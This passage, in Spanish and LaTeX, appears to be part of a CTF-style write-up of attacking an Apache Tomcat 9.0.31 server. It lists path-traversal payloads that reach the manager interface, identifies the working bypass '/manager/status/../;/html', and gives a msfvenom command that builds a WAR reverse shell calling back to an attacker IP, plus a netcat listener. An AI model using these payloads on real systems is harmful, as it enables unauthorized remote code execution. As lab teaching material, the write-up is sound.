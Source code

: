 Dado nuestro fallido éxito con el servidor \acrshort{ssh}, se decide investigar las \acrshort{uri}s anteriores, pero solo en \texttt{/manager/status} podemos entrar, ya que nos pide usuario y contraseña, y estos, los habíamos conseguido anteriormente (figura \ref{fig:seal-tomcat-users}-c). Al entrar podemos comprobar la página de estado de \textit{Tomcat}. Vemos que se está ejecutando \textit{Apache Tomcat 9.0.31}\cite{tomcat}. Se decide buscar vulnerabilidades conocidas, pero no se encuentra nada explotable.\\

Entonces se decide investigar si se puede realizar \textit{path traversal} y así poder acceder a las \acrshort{uri}s \texttt{/manager/html/*} y \texttt{/manager/jmxproxy/*}. Se prueban varios payloads, como:
\begin{itemize}
    \item \texttt{/manager/status/../html}
    \item \texttt{/manager/status/../../manager/html}
    \item \texttt{/manager/status/..\textbackslash html}
    \item \texttt{/manager/status/\%2e\%2e/html}
    \item \texttt{/manager/status/\%2e\%2e\%2fhtml}
    \item \texttt{/manager/status/;/html}
    \item \ldots
\end{itemize}

Finalmente, damos con el payload correcto, \texttt{/manager/status/../;/html}. Probamos con el mismo payload, pero intentando acceder a \texttt{jmxproxy}, pero aparece una página de ayuda de \textit{Tomcat}. En la página encontramos la opción de desplegar un archivo \texttt{.war} a la web, por eso, se decide utilizar la herramienta \textit{msfvenom}\cite{msfvenom} para crear una shell remota. Lo logramos con:
\begin{lstlisting}[language=bash]
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=6969 -f war > shell.war
\end{lstlisting}

Antes de subir el archivo al servidor, se ha creado un \textit{netcat}\cite{netcat} local para cuando se establezca la ćonexión. Para ello, se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
nc -lvnp 6969
\end{lstlisting}

Al subir el archivo a la web, esta nos devuelve un código \textit{403 - Forbidden}, por lo que decidimos interceptar la llamada con \textit{Burp Suite}\cite{burpsuite}. Rápidamente nos damos cuenta que, la \acrshort{url} utilizada en la petición es \texttt{/manager/html/} (figura \ref{fig:seal-war-no-editado}), por eso se edita para que sea \texttt{/manager/status/../;/html/} y con eso, logramos subir el archivo \texttt{shell.war} (figura \ref{fig:seal-war-editado}).

